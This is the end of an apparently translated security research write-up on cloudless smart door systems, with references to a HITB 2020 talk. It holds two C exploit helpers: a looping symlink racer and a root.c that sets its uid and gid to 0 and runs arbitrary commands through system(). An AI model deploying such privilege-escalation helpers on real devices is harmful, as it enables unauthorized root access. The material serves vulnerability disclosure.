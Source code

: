 ### <a class="reference-link" name="symlink.c"></a>symlink.c

```
#include &lt;unistd.h&gt;

int main(int argc, char **argv) `{`
  int ret;

  char *watchPath = argv[1];
  char *linkPath = argv[2];

  while(1) `{`
      ret = symlink(linkPath, watchPath);
      if (ret == 0)
        return 0;
  `}`
  return 0;
`}`
```

### <a class="reference-link" name="root.c"></a>root.c

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;

char *join_command(char **commands) `{`
    char *res = (char *)malloc(strlen(commands[0]));
    strncpy(res, commands[0], strlen(commands[0]));

    for (char **command = ++commands; *command != NULL; command++) `{`
        res = (char *)realloc(res, strlen(res) + strlen(*command) + 2);
        strcat(res, " ");
        strcat(res, *command);
    `}`
    return res;
`}`

int main(int argc, char **argv) `{`
    if (argc &lt; 2) `{`
        printf("usage: ./root &lt;command&gt;");
    `}`

    setuid(0);
    setgid(0);
    system(join_command(++argv));

    return 0;
`}`
```
<li>原文: [Open the Gates! The (In)Security of Cloudless Smart Door Systems](https://research.hisolutions.com/2020/04/open-the-gates-insecurity-of-cloudless-smart-door-systems/)
</li>
<li>PPT: [Open the Gates – The (in)security of Cloudless Smart Door Systems – Sebastian Neef, Julian Beier &amp; Lars Burhop.pdf](https://conference.hitb.org/hitblockdown/materials/D1%20-%20Open%20the%20Gates%20%E2%80%93%20The%20%28in%29security%20of%20Cloudless%20Smart%20Door%20Systems%20-%20Sebastian%20Neef,%20Julian%20Beier%20&amp;%20Lars%20Burhop.pdf)
</li>
<li>演讲视频：[Youtube: HITB Lockdown Livestream Day 1 – 25th April](https://www.youtube.com/watch?v=krFHJx08dMo&amp;t=18170s)